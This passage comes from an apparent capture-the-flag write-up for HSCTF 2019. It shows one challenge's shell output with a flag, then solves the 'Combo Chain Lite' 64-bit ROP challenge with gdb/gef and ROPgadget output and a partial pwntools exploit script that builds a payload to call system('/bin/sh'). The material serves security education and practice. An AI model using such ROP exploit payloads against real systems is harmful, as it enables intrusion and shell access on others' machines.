 ```
$ python main.py
[+] Opening connection to pwn.hsctf.com on port 1234: Done
[*] Switching to interactive mode
Alright, to aaaaaaaaaaaaaaaaaaaa\xb6\x91\x0 it goes!
$ cat flag
hsctf{fedex_dont_fail_me_now}
```

flag: `hsctf{fedex_dont_fail_me_now}`

# Combo Chain Lite

## Problem

Written by: Ptomerty

Training wheels!

`nc pwn.hsctf.com 3131`

[combo-chain-lite](/blog/2019-06-08-hsctf-writeup/Combo Chain Lite/combo-chain-lite)

[combo-chain-lite.c](/blog/2019-06-08-hsctf-writeup/Combo Chain Lite/combo-chain-lite.c)

## Solution

This is an easy 64 bit ROP challenge. Our goal is to call `system` with `/bin/sh` as the first argument.

> If you are curious how to solve a 32 bit ROP challenge, take a look at [this](/blog/posts/picoctf-2018-writeup/binary-exploitation/#rop-chain).

Find the address of `/bin/sh` with [gef](https://github.com/hugsy/gef):

```
$ gdb ./combo-chain-lite
gef➤  r
...
gef➤  grep /bin/sh
[+] Searching '/bin/sh' in memory
[+] In '/home/node/tmp/combo-chain-lite'(0x402000-0x403000), permission=r--
  0x402051 - 0x402058  →   "/bin/sh"
...
```

Find the `pop rdi` gadget with [ROPgadget](https://github.com/JonathanSalwan/ROPgadget):

```
$ ROPgadget --binary ./combo-chain-lite | grep "pop rdi"
0x0000000000401273 : pop rdi ; ret
```

Exploit script:

```python
from pwn import *

context.arch='amd64'

sh = remote('pwn.hsctf.com', 3131)

pop_rdi = 0x0000000000401273
bin_sh_addr = 0x402051
system_addr = int(sh.recvline().strip().split(': ')[-1],16)

payload = 'a'*(8+8)
payload += flat(pop_rdi, bin_sh_addr)
payload += flat(system_addr)
```